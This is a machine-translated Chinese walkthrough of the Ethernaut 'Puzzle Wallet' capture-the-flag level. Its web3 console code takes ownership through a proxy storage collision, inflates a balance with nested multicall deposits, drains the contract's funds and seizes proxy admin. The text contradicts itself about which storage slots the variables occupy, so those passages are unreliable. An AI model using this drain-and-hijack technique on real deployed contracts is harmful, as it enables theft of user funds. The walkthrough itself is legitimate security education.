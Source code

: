 # 解决以太 24-难题钱包

> 原文：<https://medium.com/coinmonks/solving-ethernaut-24-puzzle-wallet-fdf3be4634c4?source=collection_archive---------19----------------------->

![](img/a8bb9cae7c75983067ad4ae61f3e90e1.png)

Photo by [Clint Patterson](https://unsplash.com/@cbpsc1?utm_source=medium&utm_medium=referral) on [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral)

 [## 以太人

ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/) 

在这个挑战中，我们再次面临一个利用 [**委派**](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#delegatecall-and-libraries) 的合同。这一次它被用于一种被称为 [**的可升级代理**](https://docs.soliditylang.org/en/latest/security-considerations.html#authorized-proxies) **。**

可升级代理的概念是基于部署一个代理契约，它可以在任何时候升级。在这种情况下，升级意味着改变契约的逻辑。这使得开发人员能够在代码部署后更改代码，如果您需要修复合同中的 bug，这是一个非常好的特性。许多 dApps 以这种方式使用代理来保留修复的可能性，甚至在黑客攻击和其他攻击后收回资金。然而，这也意味着开发者拥有绝对的控制权，如果他们想的话，他们可以更新他们的 dApp 来耗尽存放在那里的任何用户资金。所以虽然在大多数情况下…

这个挑战的目标是通过将代理中的管理地址声明为自己的地址来获得对合同的控制权。

代理及其实现契约的定义如下:

让我们从检查代理合同开始。这个契约使用了标准的 OpenZeppelin 代理实现，但是我们应该注意的是，这个契约还存储了两个存储变量——“pending Admin”和“admin”。“admin”变量是我们想要覆盖的变量，它被放在编号为 2 的 [**存储槽**](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html) 中。

> 如果你不知道变量在存储器中是如何处理的，你可以在这里阅读。

还有一个公共函数允许我们设置“pendingAdmin”变量:

```
function proposeNewAdmin(address _newAdmin) external { pendingAdmin = _newAdmin;}
```

这意味着任何人都可以在任何时候覆盖 1 号存储槽，我们应该注意这一点。其余的函数由“onlyAdmin”子句保护，所以我们必须在与这些函数交互之前劫持契约。

让我们来看看 PuzzleWallet 合同。这将是我们代理的实现契约，它包含通过函数“execute”和“multicall”存放以太网和执行任意事务的方法。不幸的是，似乎这个契约中的所有方法都受到白名单的保护，或者检查是否是契约所有者。但是因为我们知道我们的代理使用 delegatecall，所以让我们看一下变量布局，看看我们是否能发现一些弱点:

```
address public owner;uint256 public maxBalance;mapping(address => bool) public whitelisted;mapping(address => uint256) public balances;
```

在存储插槽 0 中，我们有所有者，在存储插槽 1 中，我们有“最大余额”。如果您还记得我们的代理，它有一个设置“pendingAdmin”的公共方法，这个方法被放在存储槽 0 中。这意味着**任何人**都可以调用“proposeNewAdmin”函数，并有效地设置我们的实现契约的所有者！

让我们通过使用控制台来检查谁是当前的所有者:

![](img/53b894b0ff22728a58e2958997f7d8e6.png)

然后让我们尝试用我们自己的地址调用“proposeNewAdmin”函数:

```
await web3.eth.sendTransaction({
 from:(await window.ethereum.request({ method: 'eth_requestAccounts' }))[0],
    to: contract.address, 
    data: web3.eth.abi.encodeFunctionSignature("proposeNewAdmin(address)") 
 + web3.eth.abi.encodeParameter("address",(await window.ethereum.request({ method: 'eth_requestAccounts' }))[0]).replace('0x', '')
})
```

这应该建议您作为新管理员使用自己的钱包地址，所以现在让我们检查一下谁是合同的所有者:

![](img/b1174a453550bc25d1ddfc33c792cbcb.png)

The result should be your own wallet address now.

因为我们现在是所有者，它允许我们将自己列入白名单，并获得对钱包其余功能的访问权限，所以让我们这样做吧！

```
contract.addToWhitelist((await window.ethereum.request({ method: 'eth_requestAccounts' }))[0])
```

这很容易，但是我们的目标是榨干钱包里的钱，仅仅成为钱包的主人是不够的。我们需要更多地检查一下钱包的功能。有一个有趣的功能叫做“multicall ”,它允许白名单钱包在一次交易中进行多次呼叫。通常这是钱包中一个非常有用的功能，因为它可以让主人在复杂的交易中节省大量的汽油。但在这种情况下，有一个大问题。

![](img/eecfb6122a04712eeccf1b5c0d43bd93.png)

该方法为每个要调用的函数获取一个调用数据数组，然后进行迭代，直到使用 delegatecall 调用了所有内容。首先要注意的是，这个方法通过检查是否已经被调用来防止自己多次调用“存款”。不幸的是，它不能防止多次调用自己。这意味着您可以指定“multicall”来调用“multicall ”,因为用于跟踪存款函数的 bool 是在方法本身的范围内定义的，所以我们可以利用它来一次又一次地调用“存款”。

![](img/d5860f940ec269c83fb4684cc5c95bf1.png)

通过多次调用存款函数，我们可以有效地增加自己地址的钱包余额。流程如下所示:

“多呼叫”->“存款”->“多呼叫”->“存款”-> …

我们的想法是确保在呼叫“存款”之前呼叫“多呼叫”。为什么这如此糟糕？原因是 delegatecall 具有保存“ [**msg.sender**](https://docs.soliditylang.org/en/latest/units-and-global-variables.html#block-and-transaction-properties) ”和“ [**msg.value**](https://docs.soliditylang.org/en/latest/units-and-global-variables.html#block-and-transaction-properties) ”的特殊属性。这意味着每次我们调用“存款”函数时，我们都会保存“ [**msg.value**](https://docs.soliditylang.org/en/latest/units-and-global-variables.html#block-and-transaction-properties) ”。实际上是将这个值乘以我们重复这个过程的次数。如果我们把所有这些放在一起，它允许我们存入一小笔钱，通过利用这些钱来增加，然后我们可以提取比我们存入的更多的钱。为了在控制台中完成这一点，我们需要正确地对 [**功能和**](https://docs.soliditylang.org/en/v0.8.17/abi-spec.html#abi) 参数进行编码:

```
let depositData = web3.eth.abi.encodeFunctionCall(contract.abi[2], [] )let multicallData = web3.eth.abi.encodeFunctionCall(contract.abi[6], [[depositData]])await web3.eth.sendTransaction({
 from:(await window.ethereum.request({ method: 'eth_requestAccounts' }))[0],
    to: contract.address, 
    data: web3.eth.abi.encodeFunctionCall(contract.abi[6], [[depositData, multicallData, multicallData, multicallData, multicallData, multicallData, multicallData, multicallData, multicallData, multicallData, multicallData]]),
 value: await web3.eth.getBalance(contract.address) / 10 
})
```

在上面的示例中，我们以这样的方式对参数进行编码，即“存款”被调用 11 次，并且在同一交易中，我们发送整个钱包余额的 1/10，这意味着我们地址的钱包余额应该等于整个钱包余额。我们可以通过比较我们的内部钱包余额和钱包的总余额来检查这一点:

```
(await contract.balances((await window.ethereum.request({ method: 'eth_requestAccounts' }))[0])).toString() === await web3.eth.getBalance(contract.address)
```

如果返回 true，那么一切都按计划进行。现在最后一步是将钱包中的所有资金提取到我们自己的地址:

```
let executeData = web3.eth.abi.encodeFunctionCall(contract.abi[3], [(await window.ethereum.request({ method: 'eth_requestAccounts' }))[0], await web3.eth.getBalance(contract.address), []] )await web3.eth.sendTransaction({
 from:(await window.ethereum.request({ method: 'eth_requestAccounts' }))[0],
    to: contract.address, 
    data: executeData 
})
```

现在让我们检查一下钱包余额:

```
await web3.eth.getBalance(contract.address)
```

如果这返回 0，那么你准备好劫持代理合同！

还记得钱包契约里的变量布局吗？

```
address public owner;uint256 public maxBalance;
```

“maxBalance”变量位于存储槽 1 中，这与代理契约中的 admin 是同一个槽。通过设置“maxBalance”变量，我们可以将自己作为管理员插入。因为我们已经完全清空了钱包，所以我们现在可以使用我们自己的地址作为输入来调用“setMaxBalance ”:

```
let callData = web3.eth.abi.encodeFunctionCall(contract.abi[8], [(await window.ethereum.request({ method: 'eth_requestAccounts' }))[0]] )await web3.eth.sendTransaction({
 from:(await window.ethereum.request({ method: 'eth_requestAccounts' }))[0],
    to: contract.address, 
    data: callData 
})
```

您可以使用以下命令检查您确实是新的代理管理员:

```
await web3.eth.getStorageAt(contract.address, 1)
```

别忘了提交！

> 交易新手？试试[加密交易机器人](/coinmonks/crypto-trading-bot-c2ffce8acb2a)或者[复制交易](/coinmonks/top-10-crypto-copy-trading-platforms-for-beginners-d0c37c7d698c)